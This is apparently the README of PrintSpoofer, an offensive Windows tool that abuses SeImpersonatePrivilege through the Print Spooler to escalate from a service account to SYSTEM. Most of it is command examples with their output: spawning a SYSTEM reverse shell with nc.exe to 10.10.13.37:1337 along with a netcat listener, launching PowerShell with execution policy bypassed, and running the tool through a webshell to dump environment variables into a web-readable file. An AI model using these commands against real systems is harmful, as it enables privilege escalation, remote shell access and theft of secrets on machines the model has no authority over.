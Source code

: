 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

For more information: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/).

<p align="center">
  <img src="demo.gif">
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Usage 1: Spawn a SYSTEM process and interact with it

If you have an __interactive__ shell, you can create a new SYSTEM process in your current console.

__Use case__: bind shell, reverse shell, `psexec.py`, etc.

```cmd
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 2: Spawn a SYSTEM process and exit

If you can __execute commands__ but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

__Use case__: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```cmd
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```cmd
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 3: Spawn a SYSTEM process on a desktop

If you are __logged on locally or via RDP__ (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

__Use case__: Terminal Session (RDP), VDI

```cmd
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

### Usage 4: run on webshell

```cmd
/c C:\inetpub\wwwroot\PrintSpoofer.exe -c "c:\\windows\\system32\\cmd.exe /c set > C:\\inetpub\\wwwroot\\tmp.txt & exit" && type C:\\inetpub\\wwwroot\\tmp.txt
```
<p align="center">
  <img src="run_on_webshell.png">
</p>
